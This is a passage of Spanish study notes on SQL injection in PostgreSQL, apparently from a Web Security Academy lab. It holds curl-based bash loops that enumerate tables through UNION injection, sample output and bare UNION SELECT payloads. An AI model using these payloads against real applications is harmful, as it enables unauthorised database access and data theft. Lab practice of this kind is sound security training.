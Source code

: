 
### 4. Bucle para enumerar tablas (Postgres)

Recordemos que en PostgreSQL `OFFSET` empieza en `0`. Por tanto el bucle debe recorrer `seq 0 N`:

```bash
for i in $(seq 0 99); do q="Gifts' union select NULL,table_name from information_schema.tables limit 1 offset $i-- -"; res=$(curl -s --get --data-urlencode "category=$q" "https://web-security-academy.net/filter" | grep '<td>' | html2text); echo "[+] Para el nº $i: $res"; done
```

Si la shell o el entorno interpreta mal la URL, una alternativa es usar `--get --data-urlencode` de `curl` para codificar automáticamente la query:

```bash
for i in $(seq 0 99); do
  q="Gifts' union select NULL,table_name from information_schema.tables limit 1 offset $i-- -"
  res=$(curl -s --get --data-urlencode "category=$q" "https://web-security-academy.net/filter" | grep '<td>' | html2text)
  echo "[+] Para el nº $i: $res"
done
```

Esto evita problemas con espacios, comillas o caracteres especiales.


### 5. Resultado de ejemplo

Ejemplo de salida esperada si enumeramos varias entradas:

```
[+] Para el nº 0: pg_extension
[+] Para el nº 1: pg_class
[+] Para el nº 2: pg_range
[+] Para el nº 3: pg_stat_gssapi
[+] Para el nº 4: pg_indexes
[+] Para el nº 5: pg_policies
...
```

Si filtramos por `table_schema='public'` veremos nombres de tablas de la aplicación en lugar de las internas.



---

## Listar tablas de una base de datos


### 1) Payload básico (si la columna izquierda es numérica)

```bash
' UNION SELECT 1, table_name FROM information_schema.tables WHERE table_schema='public'-- 
```

### 2) Payload seguro si no sabemos el tipo de la primera columna (usar `NULL` para rellenar)
